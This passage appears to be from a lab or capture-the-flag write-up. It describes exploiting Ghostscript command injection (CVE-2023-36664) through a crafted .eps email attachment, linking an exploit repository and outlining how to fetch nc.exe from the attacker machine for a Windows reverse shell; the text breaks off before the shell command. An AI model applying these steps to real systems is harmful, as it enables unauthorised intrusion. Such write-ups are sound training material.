 Upon exploring the webmail service, it appears to be a platform for sending emails. Upon receiving a mail in the form of an .eps file, it’s worth noting that such files often leverage Ghostscript for execution. This could lead to the identification of a potential exploit.

{% embed url="https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection" %}

<figure><img src="../../.gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

Having previously identified Active Directory services, it is likely that the victim's computer is a windows machine, so we try to trigger a reverse shell in the Windows environment by going to inject a payload inside the .eps file.

1.  Download first `nc.exe` from attacker machine at the path `/usr/share/windows-resources/binaries`\


    <figure><img src="../../.gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>
2.  Then execute a reverse shell to connect to attacker machine:\
